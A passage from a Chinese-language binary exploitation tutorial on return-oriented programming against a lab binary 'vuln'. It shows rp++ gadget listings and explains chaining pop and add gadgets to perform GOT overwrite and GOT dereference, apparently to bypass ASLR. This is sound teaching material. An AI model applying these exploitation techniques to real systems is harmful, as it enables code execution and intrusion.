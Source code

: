```

A total of 65 gadgets found.
...
0x080484a3: popl %ebp ; ret ; (1 found)
0x080485cf: popl %ebp ; ret ; (1 found)
0x08048618: popl %ebp ; ret ; (1 found)
0x08048380: popl %ebx ; ret ; (1 found)
0x08048634: popl %ebx ; ret ; (1 found)
...
$
```

因此将偏移差`0xfffff530`压入栈中，并返回到`pop eax`指令，将偏移差复制给 EAX。但是不幸的是，在我们的二进制`vuln`中，我们不能找到`popl %eax; ret;`零件。因此 GOT 覆盖是不可能的。

栈布局：下面的图片描述了用于完成 GOT 覆盖的零件链。

![1](http://upload-images.jianshu.io/upload_images/118142-d754bf55d5f54f4b.png)

## 使用 ROP 的 GOT 解引用

零件 1：首先我们需要一个零件，它将偏移差加到`GOT[getuid]`，并且它的结果需要加载到寄存器中。所以让我们寻找一个`add`零件，它将结果复制到寄存器中。

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 4
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
166 found.

A total of 166 gadgets found.
...
0x08048499: addl $0x0804A028, %eax ; addl %eax, 0x5D5B04C4(%ebx) ; ret ; (1 found)
0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ; (1 found)
0x08048482: addl %esp, 0x0804A02C(%ebx) ; calll *0x08049F1C(,%eax,4) ; (1 found)
0x0804860e: addl -0x0B8A0008(%ebx), %eax ; addl $0x04, %esp ; popl %ebx ; popl %ebp ; ret ; (1 found)
...
$
```

好的。我们找到一个`add`零件，它将结果复制到寄存器中。现在如果我们可以使 EBX 包含`GOT[getuid] + 0xb8a0008`，并使 EAX 包含偏移差，我们就可以成功执行 GOT 解引用。

零件 2：我们在 GOT 覆盖中看到，可执行文件`vuln`中找到了`pop %ebx; ret;`。
